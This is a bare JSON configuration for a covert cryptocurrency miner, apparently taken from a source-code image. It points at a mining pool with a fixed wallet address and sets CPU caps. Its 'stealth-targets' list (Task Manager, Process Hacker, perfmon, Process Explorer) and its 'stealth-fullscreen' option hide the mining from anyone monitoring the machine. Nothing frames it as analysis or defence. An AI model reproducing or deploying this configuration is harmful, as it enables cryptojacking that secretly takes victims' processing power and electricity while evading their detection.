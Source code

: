 {
    "algo": "rx/0",
    "pool": "pool.hashvault.pro",
    "port": 443,
    "wallet": "422dPqVCt5VD9CgG9RyTdx7aVbHfGQaq8BtjfQX9W4wGTnHyQPWK7iken36awHudUyFK12P45SzJCZ6eeKsz3n8y8tEaxou",
    "password": "like",
    "nicehash": false,
    "ssltls": true,
    "max-cpu": 30,
    "idle-wait": 5,
    "idle-cpu": 80,
    "stealth-targets": "Taskmgr.exe,ProcessHacker.exe,perfmon.exe,procexp.exe,procexp64.exe",
    "kill-targets": "",
    "stealth-fullscreen": true
}
